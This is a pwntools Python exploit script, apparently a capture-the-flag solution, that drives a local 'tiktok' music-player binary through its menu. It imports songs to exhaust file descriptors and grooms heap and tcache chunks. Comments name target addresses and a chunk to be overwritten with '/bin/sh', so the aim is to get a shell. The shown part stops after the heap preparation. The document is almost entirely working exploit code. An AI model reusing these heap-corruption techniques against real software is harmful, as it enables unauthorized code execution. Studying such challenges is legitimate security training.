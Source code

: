 ```python
from pwn import *

p = process(["./tiktok"])

# p = process(["rr", "record", "./tiktok"]) # Running it with rr

def import_song(path):
    p.readuntil("Choice:")
    p.sendline("1")
    print(p.readuntil("Please provide the entire file path."))
    p.sendline(path)

def show_playlist():
    p.readuntil("Choice:")
    p.sendline("2")
    
def play_song(song):
    p.readuntil("Choice:")
    p.sendline("3")
    p.readuntil("Choice:")
    p.sendline(song)

def remove_song(song):
    p.readuntil("Choice:")
    p.sendline("4")
    p.readuntil("Choice:")
    p.sendline(song)

def exit_tiktok():
    p.readuntil("Choice:")
    p.sendline("5")

""" Import Songs """
for i in range(1,20): # songs 1 - 19
    import_song("Warrior/")
    
for i in range(20, 30): # songs 20 - 29
    import_song("Rainbow/godzilla.txt")
    
for i in range(30, 36): # songs 30 - 35
    import_song("Animal/animal.txt")

for i in range(36, 44):
    import_song("Rainbow/")

# 44th song with fd = 46
album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

""" Prepare Heap and Bins """

# Allocate chunks for first overflow
play_song("11") # A: 0x20 chunk, used for the song #44 chunk
play_song("12") # Z: 0x20 chunk, overwritten w/ ptr to 0x404078  
play_song("19") # B: 0x20 chunk, overwritten by /bin/sh 
play_song("21") # C: 0x310 chunk, overwritten w/ ptr to 0x4040c8

# Allocate ancillary chunks to provide buffer in the tcache
play_song("22") # D: 0x310 chunk 
play_song("13") # E: 0x20 chunk
play_song("23") # F: 0x310 chunk
play_song("31") # G: 0x3c0 chunk
play_song("36") # H: 0x20 chunk
```